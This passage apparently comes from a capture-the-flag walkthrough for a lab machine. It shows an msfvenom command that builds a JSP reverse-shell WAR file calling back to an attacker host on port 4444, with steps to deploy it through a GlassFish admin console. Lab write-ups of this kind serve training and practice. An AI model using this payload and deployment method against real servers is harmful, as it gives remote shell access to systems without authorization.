


5.3 Create an exploit
1. Create a “war” shell with “msfvenom”.
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.12.60 LPORT=4444 -f war > shell.war
2. Visit https://discover.hmv:4848/common/index.jsf and go to “Applications”.


3. Click on the “Deploy” button and upload the “shell.war” file.